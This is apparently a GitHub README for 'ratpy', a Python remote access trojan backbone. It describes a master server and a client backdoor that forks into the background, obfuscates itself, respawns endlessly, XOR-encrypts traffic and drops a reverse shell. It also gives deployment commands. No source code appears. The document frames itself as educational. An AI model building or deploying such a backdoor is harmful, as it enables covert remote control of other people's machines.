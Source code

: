# ratpy
> another snake friendly rat backbone
<p align="left">
<img src="imgs/ratpy.png" width="320" height="240">
</p>

### _________________________________________________________________________
## Architecture
````
This is a backbone build that can be extended for specific uses
Start server listening up to 20 connections
with a simple menu interface in the terminal
Before deploying and starting client
change the port and server ip address for your server 
Client will background by forking twice
and killing parents and trying to obfuscate itself 
If client fails it will respawn forever
which might crash the system after a while but wont start on reboots
Encryption is done with simple xor of bytearray of data with the key
Which are verified with a TCP like handshake channel
or the exchange will be restarted
Once connection is estabilished we have a default set of commands,
which can be expanded, to perform basic machine tasks and drop a shell
````

### Master
````
* interface - server menu and server cli scripting
* threadpool - running paralel code to serve menu while waiting 
  and handling connections set to up to 20 by default
* tools - backdoor :: encrypted reverse shell
  30s RAT connection with respawn and client-side
* utils - encryption methods and connection methods
> cd master && python3 main.py <server_ip_addr> <rat_port> <shell_port>
````

### Slave
````
* interface - client cli scripting
* tools - RAT client backdoor
* utils - encryption methods and connection methods
> server :: python3 obfuscator.py && <copy ratpy.py to slave machine>
> python3 ratpy.py <server_ip_addr> <rat_port>
````

### Todo
````
:: Server side logger
:: Client side OS enumeration
:: Encryption tests
````

### _________________________________________________________________________
## Disclaimer
````
The proggie has plenty of debug functions to help understand and debug it,
the main utility of this project is
provide a prototype to build something more interesting in a different language,
add some tools easily to experiement or get something quickly
tested and educational purposes. This is just a backbone which can be expanded
by adding more tools to the interface and tools dir.
````
> See license in LICENSE :: GPL3.0 [https://raw.githubusercontent.com/trevalkov/ratpy/master/LICENSE]
